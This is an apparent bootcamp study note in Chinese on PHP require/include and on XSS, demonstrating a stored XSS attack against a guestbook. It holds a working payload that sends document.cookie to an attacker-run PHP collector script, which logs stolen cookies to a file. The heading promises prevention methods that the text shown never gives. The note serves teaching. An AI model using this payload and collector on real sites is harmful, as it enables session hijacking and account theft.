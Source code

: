 基於 require 與 include 對錯誤處理的不同，如果無論如何都想讓使用者看到一些內容，那通常會使用 include，但是在大多數的情況下，使用 require 去引入重要的函數或重複使用的模組可以提高整個程式的安全性與完整性。

打個比方，假設要引入檢查登入的功能，那最好使用 require，如果檔案意外遺失，至少會直接報錯而不會顯示後續的資料。

##  請說明 XSS 的攻擊原理以及防範方法

XSS 的全名是 Cross Site Scripting，這件事看起來其實還好，因為我們本來就可自己在網站上自己寫一些 Javascript 來操作。

但可怕的是如果網站被預先植入惡意的 javascript 程式碼呢？ 當我們一載入網站就執行了惡意的 javscript 程式碼，比如說如果**一載入網站就自動把 cookie 送給別的 sever**。

這邊可以示範這樣的攻擊手段。

**攻擊方** localhost
**受害方** mentor-program.co

先在本機開啟 apache 伺服器然後寫下這樣子的檔案 get_cookie.php

```
<?php
$cookie = $_GET['cookie'];
$ip = getenv ('REMOTE_ADDR');
$time = date('Y-m-d g:i:s');
$fp = fopen("cookie.txt","a");
fwrite($fp,"IP: ".$ip."Date: ".$time." Cookie:".$cookie."\n");
fclose($fp);
?>
```
這個 php 檔會自動把拿到的 cookie 還有其他資訊寫進 cookie.txt 裡。

接著手動開啟 cookie.txt 並開權限，在同個資料夾下終端機輸入

```
touch cookie.txt
chmod 777 cookie.txt
```
接著我們來看看受害的目標網站

![img](https://i.imgur.com/iz6i15U.jpg)

這是一個留言板，它的原理是會把留言的內容寫入後端，每次前端的呈現都會再把後端的留言挖出來，所以我們可以利用著個漏洞植入惡意的程式碼。 在這邊故意留一個 `<script>document.write('<img src="http://localhost/boching/get_cookie.php?cookie='+document.cookie+'" width=0 height=0 >')</script>` 的留言。

重新載入留言板後，發現沒什麼異狀，但打開 devtool 卻發現無意間送出了 http/localhost/boching/get_cookie.php?cookie=xxx 的請求。

![img](https://i.imgur.com/rnH4Pub.jpg)

看了網頁的原始碼原來是因為網頁原本要把 card__content 的內容解析成純文字，卻誤把把留言解析成 script 標籤，因此發出請求想拿到圖片。

![img](https://i.imgur.com/eQxqao8.jpg)

回頭看我們的 cookie.txt，的確是拿到了想要的資訊。 當然駭客再進行這樣的操作不會使用 localhost，而會使用 DNS 可以搜尋到的 domain。

![img](https://i.imgur.com/SDxWi9m.jpg)

如果想知道 cookie 被拿走會有甚麼後果，可以參考[這裡](https://lidemy5thwbc.coderbridge.io/2021/06/15/mysql-cookie/)。
